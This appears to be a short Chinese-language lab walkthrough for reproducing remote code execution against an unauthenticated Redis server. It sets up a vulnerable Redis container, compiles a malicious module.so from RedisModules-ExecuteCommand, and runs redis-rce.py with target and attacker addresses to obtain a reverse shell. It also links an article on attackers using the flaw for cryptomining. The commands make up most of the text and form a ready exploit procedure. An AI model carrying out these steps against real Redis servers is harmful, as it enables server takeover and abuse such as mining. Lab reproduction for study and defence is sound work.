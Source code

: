 复现流程

靶机安装redis:

```docker pull hareemca123/redis5:alpine```       15M

启动

```docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine```

攻击机exp:

进入RedisModules-ExecuteCommand文件夹的src文件里面，看见makefile、module.c两个文件，进入该路径的终端，执行命令make生成module.so文件

将module.so文件复制到redis-rce.py同级目录下

攻击机执行 python redis-rce.py -r 192.168.255.147 -L 192.168.255.153 -f module.so 即可反弹shell

-r 为安装redis 的远程靶机



神仙操作的利用： [一起攻击者利用Redis未授权访问漏洞进行新型入侵挖矿事件](https://www.freebuf.com/articles/system/185678.html)
